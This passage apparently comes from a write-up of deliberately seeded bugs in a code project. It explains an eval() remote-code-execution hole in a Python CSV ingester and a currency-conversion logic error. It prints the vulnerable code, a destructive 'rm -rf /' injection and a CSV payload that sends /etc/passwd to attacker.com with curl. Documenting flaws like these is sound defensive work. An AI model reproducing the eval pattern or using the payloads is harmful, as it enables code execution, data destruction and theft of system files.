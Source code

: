 **Result**: The entire feature is untyped, runtime errors are guaranteed, and TypeScript provides no safety.

---

## V. Python Data Pipeline: The Eval() Catastrophe

### Pipeline Architecture (python_pipeline/, 11 errors)

```
python_pipeline/
├── db/sqlalchemy_models.py       # ERROR 322-324: No index, wrong import, relationship config
├── services/data_ingestion.py   # ERROR 325-327: eval() on CSV data, poor typing, empty except
├── processing/tasks.py           # ERROR 328-330: Race condition, logic bug, memory leak
└── api/fastapi_endpoint.py       # ERROR 331-332: Info leakage, task tracking
```

### ERROR 325: The eval() Vulnerability

```python
# data_ingestion.py

def ingest_csv(csv_file: str) -> list[dict[str, any]]:  # ERROR 326: Poor typing
    results = []
    with open(csv_file) as f:
        reader = csv.DictReader(f)
        for row in reader:
            # ERROR 325: eval() on user-supplied CSV data
            # An attacker can inject: __import__('os').system('rm -rf /')
            processed_row = {
                key: eval(value) if value.startswith('calc:') else value
                for key, value in row.items()
            }
            results.append(processed_row)

    return results  # ERROR 327: Empty except block below (not shown in snippet)
```

**Attack Vector**:
```csv
name,amount,calculation
Alice,1000,calc:100 * 10
Bob,2000,calc:__import__('os').system('curl attacker.com/steal?data=' + open('/etc/passwd').read())
```

**Result**: Remote Code Execution (RCE) vulnerability from CSV import.

### ERROR 329: The Currency Logic Bug

```python
# tasks.py

def convert_currency(amount: float, from_currency: str, to_currency: str) -> float:
    # ERROR 329: Dividing by rate instead of multiplying
    # If rate is 1.2 (USD to EUR), should multiply by 1.2
    # Instead divides by 1.2, giving wrong result
    rate = get_exchange_rate(from_currency, to_currency)
    return amount / rate  # ← Should be: amount * rate
```
